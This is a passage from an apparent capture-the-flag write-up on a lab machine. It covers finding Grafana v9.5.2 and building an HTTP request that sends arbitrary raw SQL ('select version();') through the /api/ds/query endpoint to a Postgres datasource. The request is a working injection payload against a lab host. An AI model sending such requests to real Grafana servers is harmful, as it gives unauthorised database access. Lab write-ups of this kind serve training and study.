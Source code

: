 ```


```
1.4.0 version not working for this particular threat so i decided to rebuild my ffuf and try again (3 hours stuck after this decision)




## GRAFANA



Grafana is a multi-platform open source analytics and interactive visualization web application. It provides charts, graphs, and alerts for the web when connected to supported data sources


Next step is trying to find something but all the security issues in github were patched in **v9.5.2(cfcea75916)** 

After sometime i found this [article](https://community.grafana.com/t/sql-injection-in-api-tsdb-query-in-grafana/29713) and it's really interesting becouse we have a really similar case which can bring in "sql injection" .




#### When we try to apply the time range modifications... 


```http
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d&from=now-6h&to=now
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 24
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 335
Connection: close
Cookie: redirect_to=%2Fdashboards%3Fstarred
DNT: 1
Sec-GPC: 1

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select version();","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":940}],"range":{"from":"2023-06-05T01:20:10.129Z","to":"2023-06-05T07:20:10.129Z","raw":{"from":"now-6h","to":"now"}},"from":"1685928010129","to":"1685949610129"}
```
